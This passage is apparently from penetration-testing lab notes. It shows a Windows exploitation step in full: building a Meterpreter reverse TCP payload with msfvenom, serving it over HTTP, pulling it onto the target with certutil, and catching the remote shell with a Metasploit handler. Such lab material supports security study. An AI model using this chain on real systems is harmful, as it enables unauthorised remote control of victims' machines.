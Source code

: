 ### Exploitation

- From the Kali machine, generate a `meterpreter` x64 payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe
```

- Set up a web server to host the payload

```bash
python -m SimpleHTTPServer 80
```

- Download the payload file on the target system using the `certutil` tool in `cmd`

```bash
cd Desktop
certutil -urlcache -f http://10.10.4.2/payload.exe payload.exe
```

- Stop the http server and start `msfconsole` on the Kali machine

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST 10.10.4.2
run
```

- Execute the `payload.exe` on the Win target system and check the reverse shell on Kali 

![](windows-attacksassets/image-20230317215026735.png)
